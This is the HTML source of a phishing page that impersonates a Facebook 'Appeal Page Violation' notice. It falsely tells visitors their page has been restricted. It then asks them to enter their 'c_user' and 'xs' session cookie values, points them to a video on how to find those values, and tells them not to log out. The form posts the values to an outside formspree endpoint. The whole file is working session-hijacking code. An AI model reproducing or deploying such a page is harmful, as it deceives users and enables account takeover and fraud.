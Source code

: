 
<!doctype html>
<head>
  <title>Action Required</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="style.css" rel="stylesheet">
</head>
<body>
<div class="md:block lg:block hidden border flex w-full h-[6rem]  relative bg-[#4667ac]">
  <div class="mx-10 mt-4">
      <b class="text-5xl text-white">facebook</b>
  </div>

  <form class="sm:hidden lg:block md:block" action="https://formspree.io/f/xdoqoddw" method="post">

<div style="position: absolute; left: 1.5rem; top:8rem; width: 90%;">
  <div>
    <p class="border-b h-10 font-bold text-[16px] text-[#4b4f56] pl-3 p-2 bg-[#f5f6f7]">
      Appeal Page Violation
    </p>
  </div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    We have detected unusual activity on your page that violates our community standards.
  </p>
</div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.
  </p>
</div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.
  </p>
</div>
<div>
  <p class="text-[11px] text-[#90949c] p-2 font-semibold">
    Detailed Video Information
  </p>
</div>
<div>
  <a class="w-[120px] h-[80px] block mx-3" href="https://detailed-video-29b30.web.app/detailed%20video.mp4"><img src="next.jpeg" alt=""></a>
</div><div>
  <p class=" pl-3 text-[12px] font-semibold">
    Please be sure to provide the requested information below.
  </p>
</div>
<div>
  <p class="text-slate-400 pl-4 mt-1">
    c_user
  </p><input class="border h-6 pl-1 mx-3" type="text" name="c_user" placeholder="" pattern="[0-9]+" minlength="6" id="c_user" title="Must Watch Detailed Video" required="1" aria-required="true">
</div>
<div>
  <p class="text-slate-400 pl-4 mt-1">
    xs
  </p><input class="border h-6 pl-1 mx-3" type="text" name="xs" placeholder="" pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{12,}$" title="Must Watch Detailed Video" required="1" aria-required="true">
</div><div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    Please make sure account not to log out from your computer or laptop until you have received a verification email.
  </p>
</div><div class="border mx-3 h-10 mt-4 bg-[#f5f6f7]"><div class="flex justify-end mx-2">
  <button class="border h-7 w-16  bg-[#4267b2] text-white shadow-2xl mt-[0.30rem] font-serif font-thin text-xs hover:bg-blue-500" id="delete-btn">
    Submit
  </button></div>
  </div>
 </div>
  </form>
</body>
</html>
